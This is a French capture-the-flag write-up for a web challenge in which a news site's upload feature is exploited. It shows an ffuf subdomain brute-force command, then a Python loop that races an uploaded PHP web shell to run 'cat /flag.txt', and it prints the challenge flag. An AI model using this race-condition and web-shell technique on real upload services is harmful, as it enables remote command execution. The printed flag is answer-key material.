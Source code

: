 # **TV23**.
## <u>**WEB**</u>

CATEGORIE DU CHALL

## <u>**Description**</u> :

```
DESCRIPTION DU CHALL
Une chaine d'information utilise un site web pour transmettre leurs photos, il est possible que l'application soit vulnérable.

FORMAT DU FLAG : MCTF{1cf35bf5d570cabbe4a7a222b1ad93937abf80b879132a30665479bc5c21ca92}
```

## <u>Hints</u> 

HINTS

## <u>Auteur</u> 

SpawnZii

## <u>Solution</u> :

WRITE UP

 Step1
- En regardant le code source de la page par défaut d'apache on trouve un vhost "<!-- don't forget to delete this comment russy23.ru -->".
- Ajout du vhost dans notre fichier /etc/hosts.
- On tombe sur une page avec un upload de fichier.

 Step2
- Il faut ensuite bf les vhosts pour trouver `backup.russy23.ru`
`ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://russy23.ru -H "Host: FUZZ.russy23.ru" -fs 10784`
- On obtient le code source de l'application. On comprend que le fichier upload est renommé (md5(secret+nomdufichier)), il est ensuite déplacé puis supprimé.
- Le sleep dans le code source rend vulnérable le code a une race condition.
- Nous allons donc scripter en python (ou autres) une blouche qui va faire un GET sur notre shell.
```
import requests

url = "http://russy23.ru/images/8002b0be29bfddc0466139eef609b658.php?cmd=cat /flag.txt"
for i in range(10000000):
    r = requests.get(url)
    if r.status_code == 404:
        pass
    else: 
        print(r.text)
```
- Il nous reste à upload un shell en php.


##**Flag : MCTF{1cf35bf5d570cabbe4a7a222b1ad93937abf80b879132a30665479bc5c21ca92}**
